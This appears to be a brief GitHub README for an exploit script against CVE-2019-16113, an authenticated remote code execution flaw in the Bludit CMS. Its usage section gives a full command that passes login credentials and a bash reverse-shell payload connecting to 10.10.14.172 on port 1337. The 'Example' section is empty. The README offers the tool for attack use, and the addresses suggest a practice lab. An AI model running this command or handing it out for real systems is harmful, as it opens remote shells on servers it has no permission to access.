

# CVE-2019-16113
CVE-2019-16113  - bludit >= 3.9.2 RCE authenticate

# Usage 

python CVE-2019-16113.py -u http://10.10.10.10 -user user -pass secret  -c "bash -c 'bash -i >& /dev/tcp/10.10.14.172/1337 0>&1'"

# Example

 
